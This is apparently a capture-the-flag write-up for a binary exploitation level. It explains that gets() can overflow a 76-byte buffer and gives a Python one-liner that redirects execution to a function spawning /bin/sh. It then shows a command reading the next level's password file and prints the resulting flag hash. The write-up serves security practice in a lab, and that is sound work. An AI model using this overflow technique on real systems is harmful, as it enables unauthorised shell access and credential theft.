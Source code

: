# level1

We found an exec level1 so we run it in ghidra.
inside we found a function main and run. 
Run has a system call to (/bin/sh) and main assigns a char variable with 76 bytes and inserts this variable into the function gets().

gets() has an exploit because it reads from stdin and ends with a newline. It can be used for a buffer overflow.

    python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
    Good... Wait what?
    Segmentation fault (core dumped)

We  use cat, so that the program waits for an input from stdin.

    $ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
    > Good... Wait what?
    $ cat /home/user/level2/.pass            
    > 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

